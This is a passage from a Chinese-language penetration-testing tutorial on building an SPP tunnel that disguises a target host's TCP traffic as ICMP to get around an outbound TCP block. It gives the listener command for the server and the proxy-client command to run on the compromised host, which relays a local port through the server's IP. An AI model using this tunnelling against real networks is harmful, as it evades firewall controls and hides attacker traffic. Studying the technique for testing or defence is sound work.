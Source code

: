 ## 2.2. SPP隧道建立

这里主要就是目标主机的出网TCP被禁止，但是ICMP协议是能够通信的，所以通过SPP将目标主机上的TCP流量伪装为ICMP协议转发给服务端。

![image-20230615134710174](assets/gTV9kIUfsCFL4OH.png)

### 2.2.1. 服务端设置

这里需要设置监听的是icmp协议。

```
./spp -type server -proto ricmp -listen 0.0.0.0  ##这里设置监听ICMP协议，全端口
```

![image-20230615140135823](assets/9pW1JUQ2nCYkuhX.png)

### 2.2.2. 客户端配置

这里的客户端配置，就需要到目标主机上设置，由于是将本地的TCP伪装为ICMP所以需要转发本地的端口。

```
spp -name “test” -type proxy_client -server 服务端IP -fromaddr :5555 -toaddr :6666 -proxyproto tcp -proto ricmp
```

![image-20230615140348340](assets/F16hfVypuGEkAWR.png)
